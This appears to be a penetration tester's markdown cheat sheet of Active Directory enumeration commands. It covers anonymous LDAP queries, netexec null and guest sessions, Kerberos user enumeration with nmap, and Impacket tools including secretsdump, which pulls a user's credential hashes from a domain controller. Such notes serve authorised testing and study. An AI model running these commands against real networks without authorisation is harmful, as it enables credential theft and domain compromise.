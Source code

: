 #enumeration #service-enumeration
# Note: Be cautious when brute forcing Active Directory, as it can trigger the Account Lockout Policy and disable user accounts.


## Anonymous Credential LDAP Dumping: 

- ldapsearch -LLL -x -H ldap://"domain fqdn" -b ‘’ -s base ‘(objectclass=*)’

Impacket GetADUsers.py (Must have valid credentials)

- GetADUsers.py -all domain\User -dc-ip 172.21.0.0

Impacket lookupsid.py:

- /usr/share/doc/python3-impacket/examples/lookupsid.py username:password@172.21.0.0

Impacket Secretdump:

python3 secretdump.py 'breakme.local/Administrator@172.21.0.0' -just-dc-user anakin

Windapsearch:

https://github.com/ropnop/windapsearch 

- python3 windapsearch.py -d host.domain -u domain\\ldapbind -p PASSWORD -U

## Netexec:

- netexec ldap "ip-address" -u "" -p "" -d "domain"

- netexec ldap "ip address" -u "Guest" -p "" -d "domain"

## Enumerating for users through kerberos

- sudo nmap --script=krb5-enum-users --script-args="krb5-enum-users.realm='megacorpone.com',users.txt" 172.21.0.0

## References: 

- PayloadAllTheThings:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise

- Attacking Active Directory: 0 to 0.9:
https://zer1t0.gitlab.io/posts/attacking_ad/